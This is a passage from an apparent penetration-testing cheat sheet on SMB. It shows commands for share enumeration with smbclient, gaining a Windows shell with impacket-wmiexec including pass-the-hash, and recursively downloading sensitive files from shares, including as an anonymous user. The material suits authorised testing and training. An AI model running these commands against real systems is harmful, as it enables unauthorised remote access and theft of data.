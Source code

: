 ```sh
# Specify workgroup
smbclient -L 10.0.0.1 -W WORKGROUP -U username
```

To get a Windows shell, run the following examples.

```sh
impacket-wmiexec example.local/username@10.0.0.1
# Pass the Hash
impacket-wmiexec -hashes abcdef0123456789abcdef0123456789:c2597747aa5e43022a3a3049a3c3b09d example.local/username@10.0.0.1
```

<br />

## Commands in SMB

After connecting, you can find the sensitive files or information.

```sh
# List files
smb> ls

# Download a file
smb> get sample.txt
# If the filename contains spaces, it need to be enclosed in double-quotes.
smb> get "Example File.txt"
```

To download files recursively, run the following commands.

```sh
smb> mask ""
smb> recurse ON
smb> prompt OFF
smb> mget *
```

Or using smbget from local machine.  
Especially, it’s useful for **downloading a large file** rather than “get” command in smbclient.

```sh
smbget smb://<target-ip>/somedir/example.txt -U username
smbget -R smb://<target-ip>/somedir -U username

# Specify workgroup
smbget -R smb://<target-ip>/somedir -w WORKGROUP -U username

# as anonymous user
smbget smb://<target-ip>/somedir -U anonymous
password: anonymous

```

<br />
